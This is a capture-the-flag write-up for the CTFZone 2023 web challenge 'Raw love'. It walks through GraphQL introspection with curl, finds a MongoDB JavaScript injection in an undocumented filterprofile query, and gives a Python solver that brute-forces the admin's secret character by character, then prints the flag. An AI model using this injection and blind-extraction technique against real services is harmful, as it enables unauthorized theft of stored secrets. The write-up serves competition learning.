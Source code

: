 ```yaml
---
title: "ctfzone23 web/Raw love"
publishDate: "13 Aug 2023"
description: "Author: cpp.dog"
tags: ["web", "ctfzone23"]
---
```


#### Description
Very soon we will update the functionality, we are already working on its security, so that no one would steal my secret. In the meantime, come have fun!

\- Admin

#### Code inspection

Here's the most important code of our challenge.

`/static/js/FillForm.jsx`
```js
const response = await axios.post('/api', {
  query: `
    mutation ($description: String, $contact: String) {
      fill_form(description: $description, contact: $contact) {
        status
      }
    }
  `,
  variables: { description, contact }
},{
  headers: {
    Authorization: `Bearer ${token}`
  },
});
```

Since we have found GraphQL endpoint, let's take a look at its schema.

```bash
curl -X POST -d '{
    "query": "{__schema{types{name,fields{name}}}}"
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://raw-love.ctfz.one/api/
```

```json
{
    "name": "Query",
    "fields": [
        {
            "name": "profile"
        },
        {
            "name": "filterprofile"
        },
        {
            "name": "like"
        },
        {
            "name": "myprofile"
        }
    ]
}
```

What is `filterprofile` query? It is not used inside sources. Let's get its arguments.

```bash
curl -X POST -d '{
    "query": "fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef }}fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue}fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } }}query IntrospectionQuery { __schema { queryType { name } mutationType { name } types { ...FullType } directives { name description locations args { ...InputValue } } }}"
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://raw-love.ctfz.one/api/
```

```json
{
    "name": "filterprofile",
    "description": null,
    "args": [
        {
            "name": "description",
            "description": null,
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            },
            "defaultValue": null
        }
    ],
    "type": {
        "kind": "LIST",
        "name": null,
        "ofType": {
            "kind": "OBJECT",
            "name": "Profile",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
}
```

Let's test this request with the `description` argument equal to the administrator's description.

```bash
curl -X POST -d '{"query":"query { filterprofile(description:\"Administrator\") { username } }"}' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://raw-love.ctfz.one/api/
```

```json
{
    "data": {
        "filterprofile": [
          {
            "user": "Admin"
          }
        ]
    }
}
```

So it returns users by their description. Let's try passing the character `'`.

```json
{
    "data": {
        "filterprofile": null
    }
}
```

We found the injection! The server appears to be using MongoDB, so we need a payload that looks something like this:
```js
;return (this.secret.substr(0, 8) == 'ctfzone{'; var _ = '
```

#### Solver code
```py
import requests

charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
flag ="ctfzone{"
while True:
    for char in charset:
        temp_flag = flag + char
        print(f'trying {temp_flag}')
        data = requests.post("https://raw-love.ctfz.one/api/", json={
"query": """
query { 
  filterprofile(description:\"%s\") { 
    username 
    description 
    contact 
    id
    photo 
  } 
}
""" % f"Administrator'; return (this.secret.substr(0, {len(temp_flag)}) == '{temp_flag}'); var abcds='1"
          }, headers={
              "Authorization": "Bearer [REDACTED]",
              "Content-Type": "application/json",
          })
        
        if '"username":"Admin",' in data.text:
            flag = flag + char 
            print(flag)
```

#### Flag
`ctfzone{rM7_E_EFBBxkkli4Tk9a}`